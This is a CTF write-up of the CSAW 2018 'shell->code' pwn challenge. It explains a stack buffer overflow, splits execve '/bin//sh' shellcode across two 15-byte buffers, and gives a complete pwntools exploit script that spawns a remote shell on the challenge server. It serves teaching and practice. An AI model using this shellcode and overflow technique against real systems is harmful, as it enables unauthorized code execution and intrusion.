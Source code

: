 #### CSAW CTF Qualification Round 2018 - shell->code 100  - Pwn

##### Challenge

Linked lists are great! They let you chain pieces of data together.

```bash
nc pwn.chal.csaw.io 9005
```

[File](https://unam.re/static/files/shellpointcode)

#### Summary

Easy pwning challenge where the program receives three inputs from the user.  First two inputs are of 15 bytes each, and third input, which is where we can overwrite the instruction pointer with a buffer overflow.

The trick of this challenge is that we just have 15 bytes (+15 bytes) where we can place our shellcode. Thus, we need to modify our shellcode to jump to the second part.

#### Solution

Binary:

```
$ file shellpointcode 
shellpointcode: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=214cfc4f959e86fe8500f593e60ff2a33b3057ee, not stripped
```

Funtion where the program gets the two first inputs and it prints the address where first input is saved (it will be where our shellcode starts).

![](https://unam.re/static/files/csaw_pwn1_function.png)



![](https://unam.re/static/files/csaw_pwn1_bof.png)

```bash
$ ./shellpointcode 
Linked lists are great! 
They let you chain pieces of data together.

(15 bytes) Text for node 1:  
TEST
(15 bytes) Text for node 2: 
TESTTTTTTTTT
node1: 
node.next: 0x7ffdac473710
node.buffer: TEST

What are your initials?
FOOOOOOOOOOOOOOOOOOBARRR
Thanks FOOOOOOOOOOOOOOOOOOBARRR

Segmentation fault

```



Next step is overwrite RIP and examine where is *node 1* and *node 2*, then, go to peda and exploit it!

![](https://unam.re/static/files/csaw_pwn_peda1.png)

and look where is the offset. 

```
[RSP] --> offset 11 - size ~20
```

Thus, our exploit should be 11 bytes offset + *node 1 address*

To know where is *node 1*, as we know the print that the program returned. So we examine the stack and subtract this address with *node 1*.

```
0x7fffffffdfa8-0x7fffffffdf80 = 40
```

Now we know how to jump to our shellcode placed in *node 1*, the problem is that *node 1* only has 15 bytes and the shellcode which I want to use has 30 bytes.

An easy x64 shellcode of 30 bytes:

```assembly
xor rax, rax
mov rdi, 0x68732f6e69622f2f
xor rsi, rsi
push rsi
push rdi
mov rdi, rsp
xor rdx, rdx
mov al, 59
syscall
```

We know that both variables are saving in memory in consecutive order.

*node 1* + \n + *node 2*

Therefore, we cut the shellcode in two parts, the first part ends with *pop rxc* in order to remove \n and *jmp rsp* in order to jump to *node 2* (also, we hace removed xor eax, eax; because we dont need it)

```assembly
; Node 1
mov rdi, 0x68732f6e69622f2f
pop rcx
jmp rsp
; Node 2
xor rsi, rsi
push rsi
push rdi
mov rdi, rsp
xor rdx, rdx
mov al, 59
syscall
```

Now we can put all together and get the flag!!

Final exploit:

```python
from pwn import *

context(arch = 'amd64', os = 'linux')

#p = process("./shellpointcode")
#p = gdb.debug("/home/manu/CTF/CSAW_2018/pwn/shellpointcode", '''
#        c
#''')

p = remote('pwn.chal.csaw.io',9005)
shell1 = "\x48\xbf\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x59\xff\xe4"
shell2 = "\x48\x31\xf6\x56\x57\x48\x89\xe7\x48\x31\xd2\xb0\x3b\x0f\x05"
node_1 = p.recvuntil("(15 bytes) Text for node 1:")
shellcode = "\x48\x31\xc0\x48\xbf\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\x31\xf6\x56\x57\x48\x89\xe7\x48\x31\xd2\xb0\x3b\x0f\x05"
p.sendline(shell1)
node_2 = p.recvuntil("(15 bytes) Text for node 2:")
p.sendline(shell2)
data = p.recvuntil("What are your initials?\x0a")
shellcode_addr = data.split("\n")[2].split(":")[1].strip()
addr = p64(int(shellcode_addr, 16)+0x28)
log.info("Shellcode addr = %s"%hex(int(shellcode_addr, 16)+0x28))
p.sendline("A"*11+addr)
p.interactive()
```



Exploit (with flag):

![](https://unam.re/static/files/csaw_pwn1_flag.png)



